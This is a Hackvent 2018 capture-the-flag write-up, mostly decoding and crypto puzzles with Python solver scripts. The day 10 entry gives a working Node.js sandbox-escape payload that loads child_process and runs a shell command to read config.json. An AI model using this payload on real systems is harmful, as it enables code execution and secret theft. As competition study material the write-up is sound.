

# hackvent 2018

## day 01: Just Another Bar Code
**Description:**

After a decade of monochromity, Santa has finally updated his infrastructure with color displays. With the new color code, the gift logistic robots can now handle many more gifts:



**Solution:**

Searching for "just another bar code" lead us to JAB code:
https://github.com/jabcode/jabcode

Using a JAB code decoder (https://jabcode.org/scan) we get the flag:

```HV18-L3ts-5t4r-7Th3-Phun-G33k```

## day 02: Me
**Solution:**

Our input string from the challenge is in octal encoding format:

```115 112 122 127 113 132 124 110 107 106 124 124 105 111 104 105 115 126 124 103 101 131 124 104 116 111 121 107 103 131 124 104 115 122 123 127 115 132 132 122 115 64 132 103 101 132 132 122 115 64 132 103 101 131 114 113 116 121 121 107 103 131 124 104 115 122 123 127 115 63 112 101 115 106 125 127 131 111 104 103 115 116 123 127 115 132 132 122 115 64 132 103 101 132 132 122 115 64 132 103 101 131 114 103 115 116 123 107 113 111 104 102 115 122 126 107 127 111 104 103 115 116 126 103 101 132 114 107 115 64 131 127 125 63 112 101 115 64 131 127 117 115 122 101 115 106 122 107 107 132 104 106 105 102 123 127 115 132 132 122 116 112 127 123 101 131 114 104 115 122 124 124 105 62 102 101 115 106 122 107 107 132 104 112 116 121 121 107 117 115 114 110 107 111 121 107 103 131 63 105 115 126 124 107 117 115 122 101 115 106 122 107 113 132 124 110 107 106 124 124 105 111 104 102 115 122 123 127 115 132 132 122 115 64 132 103 101 131 114 103 115 116 123 107 117 115 124 112 116 121 121 107 117 115 114 110 107 111 121 107 103 131 63 105 115 126 124 107 117 115 122 101 115 106 122 107 107 132 104 106 105 102 121 127 105 132 114 107 115 64 131 127 117 115 122 101 115 112 122 127 111 132 114 107 105 101 75 75 75 75 75```

decoding it we get a base32 encoded string:

```MJRWKZTHGFTTEIDEMVTCAYTDNIQGCYTDMRSWMZZRM4ZCAZZRM4ZCAYLKNQQGCYTDMRSWM3JAMFUWYIDCMNSWMZZRM4ZCAZZRM4ZCAYLCMNSGKIDBMRVGWIDCMNVCAZLGM4YWU3JAM4YWOMRAMFRGGZDFEBSWMZZRNJWSAYLDMRTTE2BAMFRGGZDJNQQGOMLHGIQGCY3EMVTGOMRAMFRGKZTHGFTTEIDBMRSWMZZRM4ZCAYLCMNSGOMTJNQQGOMLHGIQGCY3EMVTGOMRAMFRGGZDFEBQWEZLGM4YWOMRAMJRWIZLGEA=====```

decoding this one again we get a “14 segment” encoded string:

```bcefg1g2 def bcj abcdefg1g2 g1g2 ajl abcdefm ail bcefg1g2 g1g2 abcde adjk bcj efg1jm g1g2 abcde efg1jm acdg2h abcdil g1g2 acdefg2 abefg1g2 adefg1g2 abcdg2il g1g2 acdefg2 abcde abefg1g2 bcdef```

Using the decoder from http://kryptografie.de/kryptografie/chiffre/14-segment.htm we get the flag:

```HL18-7QTH-JZ1K-JKSD-GPEB-GJPU```

## day 03: Catch me
**Solution:**

Analysing the page source we found a hex encoded string. The first part was a trick but decoding the second part

```\x43\x6F\x6E\x67\x72\x61\x74\x75\x6C\x61\x74\x69\x6F\x6E\x73\x21\x0A\x0A\x59\x6F\x75\x20\x67\x6F\x74\x20\x74\x68\x65\x20\x66\x6C\x61\x67\x3A\x20\x48\x56\x31\x38\x2D\x70\x46\x41\x54\x2D\x4F\x31\x44\x6C\x2D\x48\x6A\x56\x70\x2D\x6A\x4A\x4E\x45\x2D\x5A\x6A\x75\x38```

we get our flag:

```HV18-pFAT-O1Dl-HjVp-jJNE-Zju8```

## day 04: pirating like in the 90ies
**Solution:**

Using the tool dial-a-pirate from the old game monkey island you can get the requested years by combining the faces.

http://www.oldgames.sk/codewheel/secret-of-monkey-island-dial-a-pirate

Example:

Using the wheel to combine the first face,  you get year 1585 for Nebraska.

Flag:

```HV18-5o9x-4geL-7hkJ-wc4A-xp8F```

## day 05: OSINT 1
**Solution:**

Using crt.sh and criteria “%hackvent.org” you get certificates for osintiscoolisntit.hackvent.org and www.hackvent.org

You can find the flag by browsing to osintiscoolisntit.hackvent.org:

```HV18-0Sin-tI5S-R34l-lyC0-oo0L```

## day 06: Mondrian 
**Solution:**

Piet (named after painter Piet Mondrian) is one of the most known esoteric programming languages, which uses images as source code.

Using the piet code decoder (https://www.bertnase.de/npiet/npiet-execute.php) on all 6 pictures to get the flag:

```HV18-M4ke-S0m3-R3Al-N1c3-artZ```

## day 07: flappy.pl
**Solution:**

The perl script is a flappy bird game.  You have to pass the gates using the space key to get all the flags.
Since it's going too fast your chances are not so high. You can modify the script and remove the strings "||| last|" so the game won’t stop if you hit a gate or a wall.
Now you have just to run the modified script and write down the letters to get the flag.

Flag:

```HV18-bMnF-racH-XdMC-xSJJ-I2fL```

## day 08: Advent Snail
**Solution:**

I assumed the box represents a qrcode, just not in the right order.
"snail" got me to spiral encoding.
First you have to crop the box from the input image and scale it to 25x25 pixels. Set the contrast high to emphasize black and white color.

I have written a python script to read the modified image, sort the rows and columns using spiral inward from top-left counterclockwise and write it to a new png.
Some testing was necessary to get the starting position and direction.

```python
#!/usr/bin/python2
from PIL import Image
import sys

# input image 4dv3ntSn4il.png has to be cropped to 25x25 px
# use high contrast to emphasize black and white color
im = Image.open("dec08_cropped_input_25x25.png")
pix = im.load()

(w,h) = im.size

row_begin = 0
row_end = h-1
col_begin = 0
col_end = w-1
qrcode = ''

# decode using spiral inward from top-left, counterclockwise
# input  1 2 3   output => 1,4,7,8,9,6,3,2,5
#        4 5 6
#        7 8 9
while row_begin <= row_end and col_begin <=col_end:
    # start with first column
    for i in range(row_begin, row_end+1):
        (r,g,b) = pix[col_begin,i]
        # if black then "0"
        if r == 0:
           qrcode+="0"
        # else white
        else:
           qrcode+="1"
    col_begin+=1
    
    # continue with last row
    for i in range(col_begin, col_end+1):
        (r,g,b) = pix[i,row_end]
        if r == 0:
            qrcode+="0"
        else:
            qrcode+="1"
    row_end-=1
    

    if col_begin <= col_end:
        for i in range(row_end, row_begin-1, -1):
            (r,g,b) = pix[col_end,i]
            if r == 0:
                qrcode+="0"
            else:
                qrcode+="1"
    col_end-=1

    if row_begin <= row_end:
        for i in range(col_end, col_begin-1, -1):
            (r,g,b) = pix[i,row_begin]
            if r == 0:
                qrcode+="0"
            else:
                qrcode+="1"
    row_begin+=1

# create image from generate qrcode stream
outimgname = "dec08_qrcode.png"
outimg = Image.new( 'RGB', (25,25), "white")
pixels_out = outimg.load()

for i in range(0,len(qrcode)):
    if qrcode[i] == '0':
        pixels_out[i%25,i/25]=(0,0,0)

outimg=outimg.resize((250,250))
outimg=outimg.rotate(180)
outimg.save(outimgname,"png")
```
Decoding the new image with a qr decoder we get the flag:

```HV18-$$nn-@@11-LLr0-B1ne```

## day 09: fake xmass balls
**Solution:**

A png with a yellow ball is given: https://hackvent.hacking-lab.com/medium-64.png
I spent long time looking for some interesting strings in the png but nothing unusual.
Then I found the second yellow xmas ball in the challenge description:
https://hackvent.hacking-lab.com/img/medium_64.png

I used imagemick to get the difference between the two images:
```compare medium_64.png medium-64.png -compose src diff.png```

The output image diff.png is obiviously a qrcode which has to be tweaked using GIMP or another tool. Converting to RGB, cropping and inverting colors we can decode it using a qr decoder.

Flag:

```HV18-PpTR-Qri5-3nOI-n51a-42gJ```

## day 10: _ Run, Node, Run
**Description:**

Santa has practiced his nodejs skills and wants his little elves to practice it as well, so the kids can get the web-app they wish for.
He made a little practice-sandbox for his elves. Can you break out?
Location: http://whale.hacking-lab.com:3000/

Attached source code:
```
const {flag, port} = require("./config.json");
const sandbox = require("sandbox");
const app = require("express")();
 
app.use(require('body-parser').urlencoded({ extended: false }));
 
app.get("/", (req, res) => res.sendFile(__dirname+"/index.html"));
app.get("/code", (req, res) => res.sendFile(__filename));
 
app.post("/run", (req, res) => {
 
	if (!req.body.run) {
		res.json({success: false, result: "No code provided"});
		return;
	}
 
	let boiler = "const flag_" + require("randomstring").generate(64) + "=\"" + flag + "\";\n";
 
	new sandbox().run(boiler + req.body.run, (out) => res.json({success: true, result: out.result}));
 
});
 
app.listen(port);
```

**Solution:**

The hint tells us that we need to escape the sandbox. Searching through the repository sandbox (author gf3) we found an interesting issue https://github.com/gf3/sandbox/issues/50.

Testing the issue with following code in the provided editor:

```new Function("return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())")()("child_process").execSync("cat config.json")```

We get the flag from config.json:
```
{
"flag":"HV18-YtH3-S4nD-bx5A-Nt4G",
"port":3000
}
```

## day 11: Crypt-o-Math 3.0
**Solution:**

Similiar challenge to last year.
If you use the solution from last year you get:

```485631382d4288bb2cdf615fc4576b25ba2ee4c74f5e8598ba6bbdfae8f```

First part looks good since hex string *485631382d* is *HV18-* in ascii but the rest doesn't seem as a part of the flag.

The solution is to try to add the modulo "p" to "a" x number of times.
I’ve used the script from author mcia and brute forced till I get a valid flag starting with *485631382d*.

```python
#!/usr/bin/env python3

# source Hackvent solution 2017, author mcia
import gmpy2
import codecs

def int_to_text(number):
    return codecs.decode(format(number, 'x'), 'hex').decode('utf-8')

''' c = (a * b) % p '''
c=0x7E65D68F84862CEA3FCC15B966767CCAED530B87FC4061517A1497A03D2
p=0xDD8E05FF296C792D2855DB6B5331AF9D112876B41D43F73CEF3AC7425F9
b=0x7BBE3A50F28B2BA511A860A0A32AD71D4B5B93A8AE295E83350E68B57E5

# if you add the modulo x times the result is still valid
# a = c * inv % p + n * p

inv = gmpy2.invert(b,p)
# let's iterate and search for a valid flag starting with 485631382d (HV18-)
for i in range(1,3000):
  a = c * inv % p + (i * p)
  a = hex(a).lstrip("0x")
  if a[:10] == "485631382d":
    print("flag: ", a)
    print("multiplier: ", i)
    break
```

Converting **485631382d784c76592d54654e542d596745682d7742754c2d6246667a0000** to ascii we get the flag:

```HV18-xLvY-TeNT-YgEh-wBuL-bFfz```

## day 13: flappy’s revenge
**Solution:**

I wrote a python script which is not very effective but I get the flag after many tries.

tbd

Flag:
```HV18-9hYf-LSY1-hWdZ-496n-Mbda```


## day 14: power in the shell
**Description:**

seems to be an easy one … or wait, what?
Encrypted flag:

*2A4C9AA52257B56837369D5DD7019451C0EC04427EB95EB741D0273D55*

Attached ps script:
```
. "$PSScriptRoot\flag.ps1" #thumbprint 1398ED7F59A62962D5A47DD0D32B71156DD6AF6B46BEA949976331B8E1

if ($PSVersionTable.PSVersion.Major -gt 2)
{
    $m = [System.Numerics.BigInteger]::Parse($flag, 'AllowHexSpecifier');
    $n = [System.Numerics.BigInteger]::Parse("0D8A7A45D9BE42BB3F03F710CF105628E8080F6105224612481908DC721", 'AllowHexSpecifier');
    $c = [System.Numerics.BigInteger]::ModPow($m, 1+1, $n)
    write-host "encrypted flag:" $c.ToString("X");
}
```

**Solution:**

The challenge was about Rabin cryptosystem (as RSA with e=2)

https://en.wikipedia.org/wiki/Rabin_cryptosystem

```python
# original script source http://n3k0sec.top/2018/02/09/RSA%E4%BE%8B%E9%A2%98
import gmpy2
import codecs

def run(m):
    m=hex(m)[2:]
    if len(m)%2==1:
        m='0'+m
    print(codecs.decode(m,'hex_codec'))

n=5841003248923821029983205516125362074880976378154066185495120324708129
e=2
# factorize n to p and q using factordb.com or rypttool
#http://factordb.com/index.php?query=5841003248923821029983205516125362074880976378154066185495120324708129
p=73197682537506302133452713613304371
q=79797652691134123797009598697137499
c=1140385111472943454874627320369403984972910918371637407390282283433301

M1=q
M2=p
M_1=gmpy2.invert(M1,M2)
M_2=gmpy2.invert(M2,M1)

a1=pow(c,(p+1)//4,p)
a2=pow(c,(q+1)//4,q)

x1=(a1*M1*M_1+a2*M2*M_2)%n
x2=(a1*M1*M_1-a2*M2*M_2)%n
x3=n-x1
x4=n-x2

run(x1)
run(x2)
run(x3)
run(x4)
```

Flag:

```HV18-DzKn-62Qz-dAab-fEou-ImjY```

## day 16: Pay 100 Bitcoins
**Description:**

It changed the host. Fortunately it doesn’t do the full job … so there’s hope. Get the things straight again and find the flag.

The OS is encrypted, but you know the key: IWillNeverGetAVirus

Download the image here: local

**Solution:**

Provided is a OVA image. Import the OVA image into virtualbox. If you start the VM, you get a Petya screen but you can't do anything with it. 

The disk of the VM contains 2 volumes. Mount the vmdk file on another Linux system and decrypt the 94MB volume with the provided password **IWillNeverGetAVirus**.

Now we can simply grep through the mounted volume:

```bash
cd /mnt/volumex
grep -ri "HV18" .
./etc/motd:Your flag is HV18-622q-gxxe-CGni-X4fT-wQKw```

